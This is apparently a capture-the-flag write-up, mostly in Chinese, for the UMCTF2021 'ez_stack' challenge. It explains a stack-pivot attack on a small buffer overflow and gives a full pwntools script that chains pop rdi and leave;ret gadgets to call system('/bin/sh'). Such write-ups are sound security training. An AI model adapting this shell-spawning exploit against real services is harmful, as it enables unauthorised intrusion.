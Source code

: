 # UMCTF2021 - ez_stack

- Write-Up Author: Ch4rc0al \[[Merak天璇 20级](https://we.buptmerak.cn/)\]

- Flag:MOCSCTF{574ck_15_345y_4nd_fun@merak}

## **Question:**
ez_stack
[ez_stack](./bin/ez_stack)
## Write up

---

64位程序，0x20的栈空间，0x30的自主发挥空间，只能溢出到rbp和ret，查询相关信息可知此类问题为栈转移。
[相关链接](https://ctf-wiki.org/pwn/linux/stackoverflow/fancy-rop/)

程序中有system()和栈地址，我们寻找pop_rdi;ret和leave;ret的地址，再构造payload就可以啦

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

sh=process('./ez_stack')
elf=ELF('./ez_stack')

sh.recvuntil('This GIFT will help you: ')
system=elf.plt['system']
s=int(sh.recvline(),16)

leave_ret=0x400896

pop_rdi=0x400963

print hex(s)
payload = p64(pop_rdi)+p64(s+24)+p64(system)+'/bin/sh\x00'+p64(s-8)+p64(leave_ret)

sh.recvuntil('Use your magic word now:')

sh.send(payload)

sh.interactive()

```

